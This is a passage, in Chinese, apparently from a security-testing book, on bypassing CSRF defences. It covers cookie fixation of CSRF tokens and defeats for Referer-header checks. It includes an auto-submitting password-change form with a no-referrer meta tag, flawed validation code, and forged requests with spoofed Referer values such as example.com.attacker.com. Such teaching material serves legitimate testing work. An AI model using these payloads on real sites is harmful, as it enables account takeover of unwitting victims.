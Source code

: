 通常，你不应该有权限修改其他用户的 cookies。但如果你能找到一种方法让受害者的浏览器发送一个伪造的 cookie，你就能执行 CSRF 攻击。

该攻击将包括两个步骤：首先，你会使用会话固定技术使受害者的浏览器将你选择的任意值作为 CSRF 令牌 cookie 存储。*会话固定* 是一种允许攻击者选择受害者会话 cookie 的攻击方式。本书中不涉及会话固定攻击，但你可以在 Wikipedia 上阅读相关内容（[`en.wikipedia.org/wiki/Session_fixation`](https://en.wikipedia.org/wiki/Session_fixation)）。然后，你会使用相同的 CSRF 令牌执行 CSRF 攻击，该令牌就是你之前选择作为 cookie 的那个。

### 绕过 CSRF Referer 头检查

如果你的目标站点没有使用 CSRF 令牌，而是检查 referer 头怎么办？服务器可能会验证随状态改变请求一起发送的 referer 头是否是网站允许的域名的一部分。如果是，网站就会执行该请求。否则，它会认为请求是伪造的并拒绝它。你可以做什么来绕过这种保护？

首先，你可以尝试去除 referer 头。就像发送一个空的令牌一样，有时绕过 referer 检查所需要做的就是根本不发送 referer 头。要移除 referer 头，只需在承载你请求表单的页面中添加一个 `<meta>` 标签：

```
<html>**<meta name="referrer" content="no-referrer">** <form method="POST" action="https://email.example.com/password_change" id="csrf-form"> <input type="text" name="new_password" value="abc123"> <input type='submit' value="Submit"> </form> <script>document.getElementById("csrf-form").submit();</script>
</html>
```

这个特定的 `<meta>` 标签告诉浏览器在生成的 HTTP 请求中不要包含 referer 头。

错误的应用逻辑可能如下所示：

```
def validate_referer(): if (request.referer in allowlisted_domains): pass else: throw_error("Referer incorrect. Request rejected.")
[...]
def process_state_changing_action(): if request.referer: validate_referer() execute_action()
```

由于应用程序只在 referer 头存在时验证它，你仅仅通过让受害者的浏览器省略 referer 头，就成功绕过了网站的 CSRF 保护！

你还可以尝试绕过用于验证 referer URL 的逻辑检查。假设应用程序在 referer URL 中查找字符串 `"example.com"`，如果 referer URL 包含该字符串，应用程序会将请求视为合法请求，否则拒绝该请求：

```
def validate_referer(): if request.referer: if ("example.com" in request.referer): pass else: throw_error("Referer incorrect. Request rejected.")
[...]
def process_state_changing_action(): validate_referer() execute_action()
```

在这种情况下，你可以通过将受害者的域名作为子域名放入 referer URL 来绕过 referer 校验。你可以通过创建一个与受害者域名同名的子域，然后将恶意 HTML 托管在该子域上来实现。你的请求看起来像这样：

```
POST /password_change
Host: email.example.com
Cookie: session_cookie=`YOUR_SESSION_COOKIE`;**Referer: example.com.attacker.com**
(POST request body)
new_password=abc123
```

你还可以尝试将受害者域名放在 referer URL 的路径名中。你可以通过创建一个与目标域名同名的文件，并将 HTML 页面托管在该文件中来实现：

```
POST /password_change
Host: email.example.com
Cookie: session_cookie=`YOUR_SESSION_COOKIE`;**Referer: attacker.com/example.com**(POST request body)
new_password=abc123
```
